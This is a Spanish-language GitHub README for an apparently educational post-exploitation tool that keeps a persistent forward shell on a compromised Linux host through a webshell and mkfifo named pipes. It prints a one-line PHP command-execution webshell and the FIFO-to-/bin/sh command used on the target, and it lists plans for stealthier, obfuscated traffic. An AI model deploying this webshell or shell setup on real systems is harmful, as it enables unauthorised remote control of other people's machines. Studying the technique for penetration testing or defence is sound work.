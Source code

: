 # mkfifo-ForwardShell-Python

![Python 3.x](https://img.shields.io/badge/Python-3.x-blue.svg)
![Linux](https://img.shields.io/badge/OS-Linux-informational.svg)
![Type](https://img.shields.io/badge/Type-Post--Exploitation-red.svg)
![License](https://img.shields.io/badge/License-MIT-green.svg) ---

### 📄 Descripción General del Proyecto

Este proyecto implementa un `Forward Shell` persistente y semi-interactivo utilizando `Python3` en el lado del atacante y el concepto de **Named Pipes (FIFOs)** de Unix en el sistema objetivo. Es una herramienta poderosa para mantener el control sobre un sistema Linux comprometido, simulando una conexión de shell directa a través de un canal web (como una webshell).

El objetivo principal de este proyecto es **demostrar y educar** sobre cómo los `Named Pipes` (`mkfifo`) pueden ser aprovechados en un contexto de post-explotación para establecer una comunicación bidireccional estable, incluso cuando las conexiones directas están limitadas o monitoreadas.

### 💡 ¿Por qué `mkfifo` para una Shell? (Concepto Educativo)

En el hacking ético y la seguridad, establecer una "shell" (una interfaz de línea de comandos) en un sistema comprometido es un paso crucial. Tradicionalmente, se usan `reverse shells` (la víctima se conecta al atacante) o `bind shells` (el atacante se conecta a un puerto abierto en la víctima). Sin embargo, estas pueden ser inestables, ruidosas o bloqueadas por firewalls.

Aquí es donde entran los `Named Pipes` o FIFOs (First-In, First-Out):

* **¿Qué es un FIFO?** Un FIFO es un tipo especial de archivo en sistemas Unix/Linux que actúa como un "tubo" (pipe) pero tiene un nombre en el sistema de archivos. A diferencia de los pipes anónimos (como `|`), un FIFO existe en el disco y puede ser abierto por diferentes procesos en diferentes momentos.
* **¿Cómo lo usamos para una Shell?** Creamos dos FIFOs:
    * Un **`FIFO de entrada`** (`.input`): donde el atacante "escribirá" los comandos.
    * Un **`FIFO de salida`** (`.output`): donde la salida de los comandos ejecutados en la víctima se "escribirá".
* **La Magia del `tail -f` y `/bin/sh`:**
    * En la máquina objetivo, se ejecuta un comando como: `mkfifo input_fifo; tail -f input_fifo | /bin/sh 2>&1 > output_fifo`
    * `mkfifo input_fifo`: Crea el FIFO de entrada.
    * `tail -f input_fifo`: Este comando se queda "escuchando" indefinidamente por cualquier cosa que se escriba en `input_fifo`.
    * `| /bin/sh`: Cualquier cosa que `tail -f` lea se pasa directamente a `/bin/sh` (la shell de comandos) para su ejecución.
    * `2>&1 > output_fifo`: Esto redirige tanto la salida estándar (`stdout`) como la salida de error estándar (`stderr`) de la shell (`/bin/sh`) al `output_fifo`.
* **Comunicación Persistente:** Una vez que este setup está en la máquina objetivo, el atacante solo necesita "escribir" comandos en el `input_fifo` (a través de la webshell) y luego "leer" la salida del `output_fifo` (también a través de la webshell). Esto crea una shell persistente y interactiva.

### ✨ Características y Funcionalidades

* **Shell Interactiva Basada en FIFOs:** Utiliza `mkfifo` para establecer una comunicación bidireccional y persistente.
* **Conexión Vía Webshell:** Se comunica con la máquina objetivo a través de peticiones HTTP (GET), simulando la interacción con una webshell básica.
* **Codificación Base64:** Los comandos se codifican en Base64 para evitar problemas con caracteres especiales o metacaracteres de URL, y se decodifican en el objetivo antes de la ejecución.
* **Limpieza Automática:** Elimina los FIFOs temporales del sistema objetivo al finalizar la sesión (al presionar `Ctrl+C` o usar el comando `exit`).
* **Generación de IDs de Sesión Aleatorios:** Utiliza un número aleatorio para los nombres de los FIFOs, ayudando a evitar colisiones y dándole un toque de ofuscación.
* **Manejo Básico de Errores:** Incluye `try-except` para errores de conexión HTTP, garantizando una experiencia de usuario más robusta.

### 🚀 Tecnologías y Herramientas Utilizadas

* **Lenguaje de Programación:** Python 3.x
* **Librerías Python:**
    * `requests`: Para realizar peticiones HTTP a la webshell.
    * `base64`: Para codificar/decodificar comandos.
    * `os`, `sys`, `signal`, `time`, `random`: Para operaciones de sistema, manejo de señales, temporización, etc.
* **Conceptos de Sistema Operativo:**
    * `mkfifo` (Named Pipes)
    * Redirección de entrada/salida (`>`, `2>&1`)
    * Piping (`|`)
    * Comando `tail -f`
    * `/bin/sh` (Bourne Shell)

### 🛠️ Pre-requisitos y Configuración

1.  **Máquina Atacante:** Un sistema con Python 3.x y las librerías `requests` instaladas.
    * `pip install requests`
2.  **Máquina Objetivo (Comprometida):**
    * Un sistema basado en **Linux/Unix** con la capacidad de ejecutar `mkfifo`, `tail`, `cat` y `/bin/sh`.
    * Una **webshell** funcional accesible vía HTTP (por ejemplo, `index.php` con un parámetro `cmd` que ejecuta comandos como `system()` o `shell_exec()`).
    * **Ejemplo mínimo de `index.php` (para el servidor web comprometido):**
        ```php
        <?php system($_GET['cmd']); ?>
        ```
        (Advertencia: ¡Esta webshell es extremadamente vulnerable y solo para entornos de laboratorio!)

### ⚙️ Cómo Usar el Forward Shell

1.  **Clonar el Repositorio:**
    ```bash
    git clone https://github.com/Zm0kSec/ForwardSHell-Unix.git
    ```
2.  **Configurar la URL de la Webshell:**
    * Abre el script `ForwardShell.py` y edita la variable `main_url` para que apunte a la URL de tu webshell en la máquina objetivo.
        ```python
        main_url = "http://[IP_DEL_OBJETIVO]/index.php"
        ```
3.  **Ejecutar el Cliente (Atacante):**
    ```bash
    python3 ForwardShell.py
    ```
4.  **Interactuar con la Shell:**
    * El script imprimirá un mensaje de "Estableciendo Forward Shell. Asegúrate que la webshell sea accesible."
    * Verás un prompt como `shell-[ID_SESION]>`.
    * Escribe tus comandos y presiona Enter. La salida aparecerá en tu consola.
    * Para salir, escribe `exit` o presiona `Ctrl+C`. El script intentará limpiar los FIFOs en el objetivo.

### ⚠️ Advertencias y Consideraciones Éticas

* Este proyecto está diseñado **exclusivamente con fines educativos y de investigación en ciberseguridad**.
* **Nunca uses esta herramienta contra sistemas sin el permiso explícito y escrito de sus propietarios.**
* El uso de herramientas de este tipo para actividades maliciosas es ilegal y puede tener graves consecuencias.
* El autor no se hace responsable del uso indebido de esta herramienta.

### 🗺️ Roadmap (Posibles Mejoras Futuras)

* Implementar cifrado en las comunicaciones HTTP para mayor sigilo.
* Añadir opciones para reconexión automática.
* Soporte para múltiples tipos de webshells.
* Detección y manejo de errores de permisos en el objetivo.
* Ofuscación del tráfico HTTP.

### ✉️ Contacto

Zm0kSec
www.linkedin.com/in/benedicto-palma-verdugo-094931301
https://github.com/Zm0kSec
